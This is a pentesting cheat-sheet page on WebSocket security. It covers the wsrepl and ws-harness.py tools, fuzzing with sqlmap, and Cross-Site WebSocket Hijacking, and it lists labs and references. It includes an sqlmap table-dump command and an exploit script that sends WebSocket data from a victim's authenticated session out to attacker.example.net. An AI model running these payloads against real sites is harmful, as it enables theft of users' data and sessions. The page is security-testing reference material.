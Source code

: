 # Web Sockets

> WebSocket is a communication protocol that provides full-duplex communication channels over a single, long-lived connection. This enables real-time, bi-directional communication between clients (typically web browsers) and servers through a persistent connection. WebSockets are commonly used for web applications that require frequent, low-latency updates, such as live chat applications, online gaming, real-time notifications, and financial trading platforms.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Using wsrepl](#using-wsrepl)
    * [Using ws-harness.py](#using-ws-harnesspy)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)

## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)

## Methodology

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```

### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.

## Labs

* [PortSwigger - Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
* [Root Me - Web Socket - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/Web-Socket-0-protection)

## References

* [Hacking Web Sockets: All Web Pentest Tools Welcomed - Michael Fowl - March 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
* [Hacking with WebSockets - Mike Shema, Sergey Shekyan, Vaagn Toukharian - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
* [Mini WebSocket CTF - Snowscan - January 27, 2020](https://snowscan.io/bbsctf-evilconneck/#)
* [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - July 18, 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
* [Testing for WebSockets security vulnerabilities - PortSwigger - September 28, 2019](https://portswigger.net/web-security/websockets)
* [WebSocket Attacks - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)

